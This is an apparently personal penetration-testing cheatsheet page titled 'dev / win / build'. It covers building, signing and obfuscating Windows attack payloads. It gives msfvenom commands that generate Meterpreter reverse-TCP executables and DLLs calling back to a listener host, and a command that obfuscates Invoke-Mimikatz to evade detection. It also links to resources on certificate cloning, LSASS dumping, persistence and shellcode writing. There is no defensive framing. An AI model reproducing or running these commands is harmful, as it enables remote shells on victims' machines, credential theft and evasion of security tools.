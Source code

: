 ```yaml
---
layout: post
title: dev / win / build
category: dev
parent: cheatsheets
modified_date: 2023-07-17
permalink: /pen/win/build
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [msfvenom](#msfvenom)
* [sign](#sign)
* [obfuscate](#obfuscate)
* [sources](#sources)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='msfvenom'></a>msfvenom
pbuild = payload build
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```

## <a name='sign'></a>sign
psign = payload sign
* [code signing certificates cloning](https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec)

## <a name='obfuscate'></a>obfuscate
```sh
# PyFuscation (https://github.com/CBHue/PyFuscation) bring small usefull features
python3 PyFuscation.py -fvp --ps ./Scripts/Invoke-Mimikatz.ps1
```

## <a name='sources'></a>sources

*[cocomelonc/registry-run-keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)
*[cocomelonc/dump-lsass](https://cocomelonc.github.io/malware/2023/05/11/malware-tricks-28.html)
*[cocomelonc/run-shellcode-via-settimer](https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html)
*[ired.team/write-shellcode-c](https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c)
*[codeproject/write-shellcode-c++](https://www.codeproject.com/Articles/5304605/Creating-Shellcode-from-any-Code-Using-Visual-Stud)
*[byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)


